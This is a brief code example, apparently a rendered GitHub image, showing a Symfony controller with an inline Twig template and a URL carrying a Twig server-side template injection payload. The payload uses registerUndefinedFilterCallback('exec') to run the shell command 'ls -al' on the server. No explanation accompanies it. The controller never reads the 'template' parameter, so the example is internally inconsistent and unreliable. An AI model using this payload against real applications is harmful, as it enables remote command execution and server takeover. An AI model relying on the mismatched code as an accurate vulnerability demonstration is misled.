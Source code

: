 source code:

```
public function showAction($productId) {
    $product = $this->getDoctrine()
        ->getRepository(Product::class)
        ->find($productId);

    $template = "
        <html>
            <body>
                <h1>{{ page }}</h1>
                <h2>{{ product.name }}</h2>
                <p>{{ product.description }}</p>
                <p>Price: {{ product.price }}</p>
            </body>
        </html>
    ";

    return $this->render('product/show.html.twig', array(
        'product' => $product,
        'page' => 'Product Detail',
        'template' => $template
    ));
}
```

```http://localhost:8000/product/1?template={{ _self.env.registerUndefinedFilterCallback('exec') }}{{ _self.env.getFilter('id')|exec('ls -al') }}```
